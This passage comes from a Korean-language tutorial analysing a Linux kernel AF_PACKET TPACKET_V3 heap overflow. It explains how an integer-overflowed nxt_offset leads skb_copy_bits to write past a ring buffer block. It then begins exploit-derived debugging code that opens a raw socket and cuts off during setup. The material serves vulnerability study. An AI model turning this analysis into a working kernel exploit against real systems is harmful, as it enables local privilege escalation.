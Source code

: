 ```c
curr = pkc->nxt_offset;
```

<br>
nxt_offset이 integer overflow로 인해 block의 크기보다 더 큰 값을 가짐으로써, curr이 block을 넘어서는 메모리 지점을 가리키게 된다.
이제 packet을 저장할 block을 찾았으므로 아래와 같이 skb_copy_bits() 함수에서 data를 복사한다.

```c
skb_copy_bits(skb, 0, h.raw + macoff, snaplen);
```

<br>
위의 함수 호출 시에 h.raw + macoff의 값을 offset으로 전달받아 data 복사가 일어나는데, h.raw의 값은 이전 packet_current_rx_frame() 함수에서 구한 block의 위치이다. 즉 정상적인 block의 위치가 아닌 다른 값이 전달됨으로써, block을 넘어서는 지점에 data가 복사되게 된다.

data 복사가 끝나고 나면, 2292라인에서 tpacket3_hdr 구조체의 내용을 아래와 같이 채운다.

```
case TPACKET_V3:
		/* tp_nxt_offset,vlan are already populated above.
		 * So DONT clear those fields here
		 */
		h.h3->tp_status |= status;
		h.h3->tp_len = skb->len;
		h.h3->tp_snaplen = snaplen;
		h.h3->tp_mac = macoff;
		h.h3->tp_net = netoff;
		h.h3->tp_sec  = ts.tv_sec;
		h.h3->tp_nsec = ts.tv_nsec;
		memset(h.h3->tp_padding, 0, sizeof(h.h3->tp_padding));
		hdrlen = sizeof(*h.h3);
		break;
```

<br>
여기까지 tpacket_rcv() 함수의 주요기능을 살펴보았다.
이제 아래 예제코드를 실행하여 tpacket_rcv() 함수를 디버깅해 보도록 하자.
<br>해당 코드는 exploit을 기반으로 만들었다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include <linux/if_packet.h>
#include <sys/socket.h>
#include <netinet/if_ether.h>
#include <netinet/in.h>

int main()
{
    int s = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
    if (s < 0)
    {
	    perror("[-] socket(AF_PACKET)");
	    exit(EXIT_FAILURE);
    }

    int v = TPACKET_V3;
    int rv = setsockopt(s, SOL_PACKET, PACKET_VERSION, &v, sizeof(v));
    if (rv < 0) 
    {
	    perror("[-] setsockopt(PACKET_VERSION)");
	    exit(EXIT_FAILURE);
    }

    struct tpacket_req3 req;
```